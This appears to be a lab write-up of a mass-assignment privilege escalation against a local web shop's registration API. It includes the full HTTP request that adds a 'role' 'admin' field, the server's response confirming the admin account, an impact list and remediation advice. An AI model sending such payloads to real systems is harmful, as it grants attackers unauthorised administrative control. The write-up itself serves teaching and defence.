


# Exploit Report: Privilege Escalation via Mass Assignment

## Vulnerability Overview

* **Vulnerability Type:** Mass Assignment / Improper Privilege Management (OWASP A01:2021 – Broken Access Control)
* **Target Endpoint:** User Registration API (`http://localhost:3000/api/Users/`)
* **Vulnerable Parameter:** `role` (JSON Payload field)
* **Severity:** High / Critical
* **Exploitation Status:** Successfully Exploited

---

## Technical Description

Mass Assignment occurs when an application automatically binds client-provided HTTP request parameters directly to internal data models without maintaining a strict field authorization whitelist. During account registration, the endpoint accepts a user-defined `"role"` parameter. An unauthenticated user can append `"role": "admin"` to the JSON request body, allowing them to register an account directly with full administrative privileges.

---

## Proof of Concept & Exploitation Steps

### Step 1: Request Interception & Parameter Injection

When creating a standard account on the registration page, intercept the `POST /api/Users/` request and append the restricted `"role"` field to the JSON body:

```http
POST /api/Users/ HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{
  "email": "soha@s.s",
  "password": "12345",
  "passwordRepeat": "12345",
  "role": "admin",
  "securityQuestion": {
    "id": 2,
    "question": "Mother's maiden name?",
    "createdAt": "2026-09-18T17:24:34.522Z",
    "updatedAt": "2026-09-18T17:24:34.522Z"
  },
  "securityAnswer": "haha"
}
```

### Step 2: Execution & Response Verification

The backend accepts the payload, creates the database record, and returns a `201 Created` HTTP response confirming the role assignment:

```http
HTTP/1.1 201 Created
Content-Type: application/json; charset=utf-8

{
  "status": "success",
  "data": {
    "username": "",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "/assets/public/images/uploads/defaultAdmin.png",
    "isActive": true,
    "id": 25,
    "email": "soha@s.s",
    "role": "admin",
    "updatedAt": "2026-09-18T17:33:36.795Z",
    "createdAt": "2026-09-18T17:33:36.795Z",
    "deletedAt": null
  }
}
```

---

## Evidence & Screenshots

 
*Figure 1: Intercepting registration request and appending the "role": "admin" JSON parameter.*

 
*Figure 2: Verifying the creation of a new Administrator account via Profile.*

---

## Real-World Impact

* **Unrestricted Privilege Escalation:** Any unauthenticated visitor can instantly provision fully-privileged administrative accounts.
* **Complete System Compromise:** Attackers gain full administrative access to sensitive system configurations, user databases, and order management functions.
* **Bypass of Role-Based Access Control (RBAC):** Renders the application's permission controls useless during user creation.

---

## Remediation & Mitigation

### 1. Implement Strict DTO Field Whitelisting

Enforce Data Transfer Object (DTO) whitelisting on the server side to accept only safe, client-editable fields (such as `email`, `password`, and `securityAnswer`). Automatically ignore or reject restricted parameters like `role` or `isAdmin`.

### 2. Default Server-Side Role Assignment

Ensure privilege levels are assigned exclusively on the server side during resource creation. Unauthenticated public registration workflows should default strictly to standard user privileges (`"role": "customer"`).

---